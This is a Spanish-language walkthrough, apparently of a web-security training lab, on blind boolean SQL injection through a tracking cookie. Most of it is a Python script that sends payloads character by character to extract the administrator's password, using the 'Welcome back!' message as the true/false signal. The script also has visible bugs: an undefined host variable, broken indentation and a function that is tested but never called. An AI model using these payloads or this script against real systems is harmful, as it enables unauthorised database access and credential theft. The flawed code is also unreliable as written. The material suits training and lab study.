



En este caso tenemos la vulnerabilidad en la cookie, que podemos abusar de ella para obtener la credencial del usuario administrator.

Observamos cuando la consulta es valida podemos ver `Welcome back!`



En caso de que no es valida no se tiene `Welcome back!` en el lado de la respuesta.



Teniendo en cuenta esto podemos hacer un script para automatizar el proceso

```c
import requests
from pwn import * 

#Cookie: TrackingId=cUnp1Gkl2HtZ4Jyi; session=dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh

url_main='https://0a5200f1030e843082439c3700a60073.web-security-academy.net'
url_request=f'{url_main}/filter?category=Gifts'
letters='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
session='dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh'
id='cUnp1Gkl2HtZ4Jyi'

#payload = "cUnp1Gkl2HtZ4Jyi' AND (SELECT SUBSTR(schema_name,1,1) FROM information_schema.schemata='u')"

def ctrl_C(signal, frame):
    print('[+] exit')
    exit(1)

def valid_sql_injection():
    payload = "%s' order by 1--" % (id)
    return send_request(payload)


def get_name_credentials(letters):
    if valid_sql_injection:
        p1=log.progress('Enumeration DB')
        password=''
        start=1
        while True:
            for word in letters:
                #print(word)
                #TrackingId=xyz' a

                payload = "%s' AND (SELECT SUBSTRING(password,%d,1) FROM users WHERE username='administrator')='%s" %(id,start,word)
                p1.status('Start : %d Password : %s Letters: %s' % (start,password, word))
                if send_request(payload):
                    password+=word
                    break
            if len(password)!=start:
                break
            start+=1
    else:
        print('[+] Error, sql injection not found ')

        
def send_request(payload):
    
    cookies = {
          'TrackingId': payload,
          'session': session
          }
    #' AND (SELECT ASCII(SUBSTRING(database(),{i},1)))={j}--
      headers = {
          'Host':host ,
          'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
          'Accept-Language': 'es-ES,es;q=0.5',
          'Accept-Encoding': 'gzip, deflate, br',
          'Dnt': '1',
          'Referer': url_request,
          'Upgrade-Insecure-Requests': '1',
          'Sec-Fetch-Dest': 'document',
          'Sec-Fetch-Mode': 'navigate',
          'Sec-Fetch-Site': 'same-origin',
          'Sec-Fetch-User': '?1',
          'Te': 'trailers'
          }
    try:

        response = requests.get(url_request, cookies=cookies)

        if 'Welcome back!' in response.text:
            return True
        else:
            return False
    except requests.exceptions.RequestException as e:
        return False
        #print(f"An error occurred: {e}")


if __name__ == "__main__":
    signal.signal(signal.SIGINT,ctrl_C)
    get_name_credentials(letters)
```


